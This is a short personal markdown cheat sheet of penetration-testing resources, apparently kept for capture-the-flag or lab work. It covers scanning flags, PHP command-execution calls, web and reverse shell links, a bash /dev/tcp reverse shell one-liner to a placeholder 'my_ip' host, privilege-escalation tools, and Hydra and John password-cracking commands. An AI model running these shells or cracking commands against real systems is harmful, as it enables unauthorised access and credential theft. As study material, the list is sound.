 # My Security Resources
## Scan
### Services
- nmap
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
        - `-p-` : Scan all ports
- enum4linux
    - Parameters
        - `-a` : Do all simple enumeration
## Web
### Scan Directory
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
### PHP
- Bypass `system`
	- `echo passthru("whoami")`
	- `echo shell_exec("whoami")` 
	- `echo exec("whoami")`
### Shell
#### Web Shell
- [b374k](https://github.com/b374k/b374k)
- [windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell)

#### Reverse Shell
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- Bash tcp
    - `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
- Make it moreinteractively
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
## Privilege
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng) , [LinEnum](https://github.com/rebootuser/LinEnum)
    - Scan the system to find which can be use for privileges escalation
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
### Command
- `sudo -l`
## Password Crack
### Software
- Hydra
    - Crack online services password
        - SMB、SSH......
    - Usage
        - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
- John the ripper
    - Crack hash like /etc/shadow
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
        - samdump2
        	- NTLM 2 John
        	- `samdump2 system sam > j.txt`
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists
	- [xato-net-10-million-passwords-dup.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-dup.txt)
### Online
- https://crackstation.net/

## Software
- RDP
	- `xfreerdp +drives /u:{username} /v:{ip}:{port}`